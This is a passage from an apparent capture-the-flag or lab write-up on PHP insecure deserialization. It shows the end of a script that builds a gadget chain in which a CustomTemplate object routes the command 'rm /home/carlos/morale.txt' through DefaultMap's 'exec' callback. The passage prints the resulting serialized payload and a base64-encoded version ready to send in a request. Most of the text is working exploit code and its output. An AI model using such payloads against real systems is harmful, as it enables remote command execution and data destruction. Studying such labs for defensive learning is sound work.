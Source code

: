 ```php
}

$obj = new CustomTemplate();
$ser = serialize($obj);
echo $ser ;
?>
```

the output will be :

```php
O:14:"CustomTemplate":2:{s:33:"CustomTemplatedefault_desc_type";s:26:"rm /home/carlos/morale.txt";s:20:"CustomTemplatedesc";O:10:"DefaultMap":1:{s:20:"DefaultMapcallback";s:4:"exec";}}
```

it will not work , When working with serialized PHP objects, the serialized data is represented as a binary format that may include null characters. Copying and pasting the cleartext part of the serialized object can introduce encoding issues and potentially modify the content.

To accurately represent the serialized object, it's recommended to work with the binary data directly rather than copying and pasting the cleartext representation. This ensures that the serialized object is preserved without unintended modifications.

If you need to share or store the serialized object, it's best to handle it as binary data or use appropriate encoding techniques, such as base64 encoding, to avoid any data corruption during transmission or storage.

so we will add this line to the end of the script :

```php
$base64Encoded = base64_encode($ser);
echo $base64Encoded
```

the output will be: `TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MzM6IgBDdXN0b21UZW1wbGF0ZQBkZWZhdWx0X2Rlc2NfdHlwZSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO3M6MjA6IgBDdXN0b21UZW1wbGF0ZQBkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzOjIwOiIARGVmYXVsdE1hcABjYWxsYmFjayI7czo0OiJleGVjIjt9fQ==`

request :

![request.png](/media/WEB_EXPLOITAION/request.png)
